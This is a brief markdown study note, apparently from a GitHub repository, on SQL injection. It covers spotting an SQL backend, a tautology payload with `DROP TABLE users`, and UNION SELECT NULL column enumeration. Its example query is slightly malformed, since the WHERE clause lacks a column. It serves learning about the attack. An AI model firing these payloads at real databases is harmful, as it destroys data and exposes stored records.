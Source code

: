 [Home](../README.md)

# SQL Injection

How do you know the database is using SQL?
- Error messages(Internal server error)
	- Test inputs with `'` or `"`
- HTTP headers or response bodies
- Look for SQL keywords

Union select sequences?

```SQL
' OR 1 = 1; DROP TABLE users; --

-- Comments might be # instead of --

' OR 1 = 1; DROP TABLE users; #
```

Get imputed into

```SQL
SELECT * FROM users WHERE = ' userInput ';
```

Once you know something is vulnerable to SQL injection, How do you extract information from the database?
- Find all the tables
- Find all the columns in each table
```SQL
' UNION SELECT NULL, NULL, NULL;
```
- If returns true then you know there are 3 columns for that table.